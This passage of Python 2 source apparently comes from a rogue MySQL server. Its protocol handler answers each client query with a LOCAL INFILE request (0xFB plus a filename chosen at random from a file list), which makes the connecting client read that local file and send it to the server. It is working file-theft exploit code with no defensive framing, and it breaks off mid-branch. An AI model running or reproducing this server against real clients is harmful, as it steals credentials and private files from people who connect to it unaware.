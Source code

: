 ```
        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
```